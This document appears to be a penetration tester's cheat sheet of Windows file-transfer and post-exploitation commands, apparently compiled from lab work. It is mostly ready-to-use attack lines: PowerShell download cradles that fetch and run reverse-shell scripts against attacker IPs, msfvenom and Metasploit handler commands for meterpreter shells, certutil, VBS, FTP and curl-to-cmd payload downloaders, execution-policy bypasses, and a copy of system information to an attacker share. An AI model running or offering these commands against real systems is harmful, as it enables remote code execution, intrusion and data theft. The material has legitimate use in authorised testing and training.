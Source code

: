 ###
https://github.com/egre55/ultimate-file-transfer-list

```
Get-Host | Select-Object Version
```
powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.14.124:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.124 -Port 8002
```
 @"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "iex ((New-Object System.Net.WebClient).DownloadString('http://10.10.14.124:8000/Invoke-PowerShellTcp.ps1'))";Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.124 -Port 4445
 IEX(New-Object Net.WebClient).downloadString('http://10.10.14.124:8000/Sherlock.ps1') ; Find-AllVulns
 ```
powershell -c "Invoke-WebRequest -Uri 'http://10.10.14.124:8001/program.exe' -OutFILE 'C:\Program Files\Autorun Program\program.exe'"
powershell -c "Invoke-WebRequest -Uri 'http://10.10.14.124:8001/Invoke-PowerShellTcp.ps1' -OutFILE 'C:\users\kostas\Desktop\Invoke-PowerShellTcp.ps1'"

msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o [SHELL NAME].exe

use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST your-ip set LPORT listening-port run

powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.6.20.231:8001/shell-.exe','shell.exe')"

powershell -c "Invoke-WebRequest -Uri 'http://10.10.200.223:8000/program.exe' -OutFILE 'C:\Program Files\Autorun Program\program.exe'"

powershell -c "Invoke-WebRequest -Uri 'http://10.10.14.124:8282/39719.ps1' -OutFILE 'C:\Users\kostas\Desktop\39719.ps1'"

powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.6:9005/41020.exe', 'c:\Users\Public\Downloads\41020.exe')"

powershell IEX(New-Object Net.WebClient).downloadString(‘http://<attacking machine>/Empire.ps1')


C:\Windows\sysnative\WindowsPowershell\v1.0\powershell.exe -ep bypass -File \\10.10.14.124\kali\tools\enumeration\nmapAutomator\10.129.1.127\MS16-032.ps1

###
c:\>powershell.exe "IEX(New-Object Net.WebClient).downloadString('http://192.168.1.2:8000/PowerUp.ps1') ; Invoke-AllChecks"
###
c:\>powershell.exe -ExecutionPolicy Bypass -noLogo -Command "IEX(New-Object Net.WebClient).downloadString('http://192.168.1.2:8000/powerup.ps1') ; Invoke-AllChecks"
###
c:\>powershell.exe "IEX(New-Object Net.WebClient).downloadString('http://192.168.1.2:8000/Sherlock.ps1') ; Find-AllVulns"
###
If you have your ps1 file downloaded to the victim machine then run using this
c:\>powershell.exe -exec bypass -Command "& {Import-Module .\Sherlock.ps1; Find-AllVulns}"
###
c:\>powershell.exe -exec bypass -Command "& {Import-Module .\PowerUp.ps1; Invoke-AllChecks}"


```
certutil -urlcache -split -f http://10.10.14.124:8000/potato.exe
```

```
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```
```
cscript /nologo wget.vbs http://10.10.14.147/churrasco.exe churrasco.exe
cscript /nologo wget.vbs http://10.10.14.147/nc32.exe nc32.exe

```



### PowerShell Cmdlet (Powershell 3.0 and higher)
```
Invoke-WebRequest "https://server/filename" -OutFile "C:\Windows\Temp\filename"
PowerShell One-Liner

(New-Object System.Net.WebClient).DownloadFile("https://server/filename", "C:\Windows\Temp\filename") 
PowerShell One-Line Script Execution in Memory

IEX(New-Object Net.WebClient).downloadString('http://server/script.ps1')
PowerShell with Proxy

$browser = New-Object System.Net.WebClient;
$browser.Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials;
IEX($browser.DownloadString('https://server/script.ps1'));
PowerShell Script

echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://server/file.exe" >>wget.ps1
echo $file = "output-file.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
		
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
Non-interactive FTP via text file. Useful for when you only have limited command execution.

echo open 10.10.10.11 21> ftp.txt
echo USER username>> ftp.txt
echo mypassword>> ftp.txt
echo bin>> ftp.txt
echo GET filename>> ftp.txt
echo bye>> ftp.txt
		
ftp -v -n -s:ftp.txt
CertUtil

certutil.exe -urlcache -split -f https://myserver/filename outputfilename
Certutil can also be used for base64 encoding/decoding.

certutil.exe -encode inputFileName encodedOutputFileName
certutil.exe -decode encodedInputFileName decodedOutputFileName
Starting with Windows 10 1803 (April 2018 Update) the curl command has been implemented which gives another way to transfer files and even execute them in memory. Piping directly into cmd will run most things but it seems like if you have anything other than regular commands in your script, ie loops, if statements etc, it doesn’t run them correctly.

curl http://server/file -o file
curl http://server/file.bat | cmd
And with PowerShell

IEX(curl http://server/script.ps1);Invoke-Blah
```

	
	
	
```
c:\Users\Public\Downloads>copy systeminfo_1.txt \\192.168.119.194\kali\tmp\                                                                                                                  │10.11.1.13 - - [20/Feb/2022 10:57:52] "GET /Sherlock.ps1 HTTP/1.1" 200 -
copy systeminfo_1.txt \\192.168.119.194\kali\tmp\     
```
	
	https://medium.com/@PenTest_duck/almost-all-the-ways-to-file-transfer-1bd6bf710d65
